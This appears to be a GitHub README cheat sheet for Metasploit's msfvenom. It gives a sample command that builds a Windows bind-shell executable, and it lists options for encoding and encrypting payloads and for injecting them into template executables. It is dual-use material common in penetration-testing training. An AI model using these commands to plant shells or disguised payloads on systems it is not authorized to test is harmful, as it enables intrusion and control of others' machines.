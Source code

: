 <img src="https://github.com/dewebdes/CYBER-MILITARY-GERMANY/blob/master/Metasploit/msfvenom/msfvenom.jpg" />
<h1>Create Payloads and Virus</h1>
<h2>MSFVenom is new and combine msfpayload, encrypts & others together</h2>
<h3>Sample usage</h3>
<code>msfvenom -p windows/shell_bind_tcp LPORT=1337 LHOST=<IP> -f exe -o bindshell.exe</code>
<p>
<h3>Get the list of <b>msfvenom</b> Algorithms & Options, all for all options and others for filter results </h3>
<code>
msfvenom -l [payloads,encoders,nops,platforms,archs,encrypt,formats,all]
</code>
</p>
<p>
<code>msfvenom -p linux/x86/shell_bind_ipv6_tcp --list-options</code>
	<br><b>show target payload options</b>
</p>
<p>
	<code>msfvenom -f [format-name]</code>
<h4>Raw Payload -> Encoder -> Formatting -> Output</h4>
</p>	
<p>
	-e, --encoder         <encoder>  The encoder to use (use --list encoders to list)<br>
        --sec-name        <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string<br>
        --smallest                   Generate the smallest possible payload using all available encoders<br>
        --encrypt         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)<br>
        --encrypt-key     <value>    A key to be used for --encrypt<br>
        --encrypt-iv      <value>    An initialization vector for --encrypt<br>
	</p>
	<p>
    -a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)<br>
        --platform        <platform> The platform for --payload (use --list platforms to list)<br>
		</p>
		<p>
    -o, --out             <path>     Save the payload to a file
			</p>
    <p>
	    -b, --bad-chars       <list>     Characters to avoid example: '\x00\xff'
	    </p>
	    <p>
    -n, --nopsled         <length>   Prepend a nopsled of [length] size on to the payload<br>
        --pad-nops                   Use nopsled size specified by -n <length> as the total payload size, auto-prepending a nopsled of quantity (nops minus payload length)
		    </p>
    <p>
	    -s, --space           <length>   The maximum size </p>
	    <p>-c, --add-code        <path>     Specify an additional win32 shellcode file to include</p>
    <p>-x, --template        <path>     Specify a custom executable file to use as a template</p>
    <p>-k, --keep                       Preserve the --template behaviour and inject the payload as a new thread</p>
    <p>-v, --var-name        <value>    Specify a custom variable name to use for certain output formats</p>
    <p>-t, --timeout         <second>   The number of seconds to wait when reading the payload from STDIN (default 30, 0 to disable)</p>
    <p>-h, --help                       Show this message</p>
